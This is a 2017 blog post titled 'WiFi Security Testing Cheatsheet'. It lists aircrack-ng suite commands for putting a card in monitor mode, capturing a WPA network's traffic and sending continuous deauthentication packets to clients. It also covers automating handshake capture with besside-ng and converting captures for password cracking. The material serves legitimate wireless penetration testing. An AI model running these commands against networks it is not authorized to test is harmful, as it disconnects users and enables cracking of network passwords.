 +++
author = "Dan Salmon"
date = 2017-10-10T16:38:19Z
description = ""
draft = false
tags = ["security"]
slug = "wifi-security-testing-cheatsheet"
title = "WiFi Security Testing Cheatsheet"
type = "post"

+++

# Prepare Wireless Card
* **View Network Cards:** iwconfig
* **Kill Wireless Processes:** airmon-ng check kill

---------
# View Networks
airodump-ng wlan0

---------

# Capture traffic
airodump-ng --bssid 04:A1:51:9F:98:BB --wps --write ISSO-WPA2 --channel 6 wlan0
 
where:
* --bssid   - MAC of router
* --wps     - Output WPS information, may be able to try Reaver
* --write   - File name to write to. No extension
* --channel - Statically set a channel. Don't need to unless de-authing
* wlan0  	- Wireless interface	

----------------------------

# Deauth - Do while capturing
aireplay-ng --deauth 0 -a 04:A1:51:9F:11:11 -c E0:AC:CB:DA:1B:1B wlan0

where:
* 0        - Continuously send deauth packets
* -a       - BSSID of router (from airodump)
* -c       - STATION of client (From airodump. Not necessary, but preferred)
* wlan0	   - Interface
* --deauth - Which aireplay attack to launch

[0|64 ACKs] - How many acknowledgements from AP|client. More=better especially for AP count


------------
# Automating de-auth attack/handshake grab
besside-ng -W -c 6 -b 00:00:11:22:33:44 wlan0

where:
* -W - WPA networks only
* -c - channel lock
* -b - BSSID of AP
* wlan0 - interface
	
- Sort of experimental, will probably get errors
- Usually grabs handshake in under 1 minutes, saves to wpa.cap and wep.cap
- Need to see at least (Know 1 clients), otherwise nothing to deauth

-------

# Seperate out individual caps from besside-ng output
pyrit -r wpa.cap -o mytargetnetwork.cap -e mytarget strip

where:
* -r - Input file to look at created by besside-ng
* -o - Output file to create
* -e - ESSID of network to filter by (alternatively, -b with BSSID of network)

---------

# Convert .cap with handshake to .hccap

aircrack-ng -J network network.cap

* Aircrack already adds .hccap extension to file